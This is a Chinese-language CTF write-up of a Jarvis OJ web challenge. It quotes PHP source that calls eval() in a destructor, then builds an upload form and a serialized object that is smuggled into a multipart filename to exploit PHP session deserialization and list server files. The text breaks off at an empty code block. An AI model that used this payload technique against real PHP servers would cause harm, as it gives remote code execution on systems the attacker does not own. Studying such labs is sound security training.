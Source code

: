 ```bash
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```
[php反序列化总结](http://www.91ri.org/15925.html)</br>
建立一个html文件，写入
```bash
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
<input type="file" name="file" />
<input type="submit" />
</form>
```

[scandir](http://php.net/manual/zh/function.scandir.php)</br>
[dirname](http://www.w3school.com.cn/php/func_filesystem_dirname.asp)</br>
序列化，然后将html文件上传的包的文件名修改为下面序列化的值加上|,为防止转义，在”上加入\。
```bash
<?php
ini_set('session.serialize_handler','php_serialize');
session_start();
class OowoO{
    public $mdzz='var_dump(scandir(dirname(__FILE__))';
}
$qianye=new OowoO();
echo serialize($qianye);
?>
```
抓包文件名修改为
```bash
------WebKitFormBoundaryCyObcbKufPxtAZ5Q
Content-Disposition: form-data; name="file"; filename="|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}"
Content-Type: text/plain

<!-- UY BEGIN -->
<div id="uyan_frame"></div>
<script type="text/javascript" src="http://v2.uyan.cc/code/uyan.js?uid=2157721"></script>
<!-- UY END -->
<script type="text/javascript" src="http://7u2ss1.com1.z0.glb.clouddn.com/love.js"></script>

------WebKitFormBoundaryCyObcbKufPxtAZ5Q--
```
得到flag所在的文件。
由phpino.php和flag文件在同一目录下，和phpinfo上的信息可知
进一步修改文件名为
```bash
```